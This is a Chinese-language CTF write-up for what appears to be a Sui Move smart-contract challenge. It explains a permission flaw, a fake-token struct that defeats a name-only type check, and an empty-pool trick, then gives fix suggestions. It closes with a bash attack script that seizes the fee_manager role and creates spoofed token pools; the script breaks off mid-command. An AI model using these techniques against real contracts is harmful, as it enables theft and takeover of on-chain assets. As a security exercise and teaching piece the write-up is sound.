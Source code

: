 ## 技术要点

### 1. PTB语法的正确使用

- 使用`--assign`来创建变量引用
- 正确的对象ID引用格式: `@<object_id>`
- 类型参数格式: `"<package::module::Type>"`

### 2. 假代币结构体的关键作用

- 利用`get_struct`函数只检查结构体名称的漏洞
- 创建同名但不同包的TOKEN结构体
- 绕过类型系统检查

### 3. 空池子的巧妙利用

- 创建零余额的池子
- 使所有`get_balance`和`get_total_fee`调用返回0
- 满足`sum + fee_sum == 0`的条件

## 防护建议

1. **修复权限检查**:
   
   ```rust
   assert!(tx_context::sender(ctx) == pools.fee_manager, 0);
   ```
2. **使用完整类型路径**:
   
   ```rust
   fun get_struct<X>(): String {
       type_name::get<X>().into_string()  // 使用完整类型路径
   }
   ```
3. **增强is_solved检查**:
   
   - 检查池子是否已正确初始化
   - 验证代币类型的合法性
   - 添加额外的安全检查

## 完整攻击脚本

为了方便复现，这里提供完整的攻击脚本：

```bash
#!/bin/bash
# 完整的CTF攻击脚本

ATTACK_PACKAGE="0x69adecee672848377110c4b60fa5392eac94349176068d0a877215fcf68e4a07"
TARGET_PACKAGE="0xa4ed91928b7eb37e7bed0e8bea09dfcccb8a5ae41b908ebb222701c637294e1a"
POOLS_ID="0x2412efd0b085591054c9ea6432bce9a6f1a98dcd55400a64f913c1489e962001"
MY_ADDRESS="0x5284d0a3eb3c5eb84fdd7f27c7e60f486315e99d9f2826b6c35f0e8b0981c6fe"

echo "Step 1: 利用权限漏洞成为fee_manager"
sui client call --package $TARGET_PACKAGE --module pool --function set_fee_manager \
  --args $POOLS_ID $MY_ADDRESS --gas-budget 10000000

echo "Step 2: 创建假TOKEN1-TOKEN2池子"
sui client ptb \
  --move-call 0x2::coin::zero "<${ATTACK_PACKAGE}::attack::TOKEN1>" \
  --assign token1 \
  --move-call 0x2::coin::zero "<${ATTACK_PACKAGE}::attack::TOKEN2>" \
  --assign token2 \
  --move-call ${TARGET_PACKAGE}::pool::create_pool "<${ATTACK_PACKAGE}::attack::TOKEN1,${ATTACK_PACKAGE}::attack::TOKEN2>" @${POOLS_ID} 0 token1 token2 \
```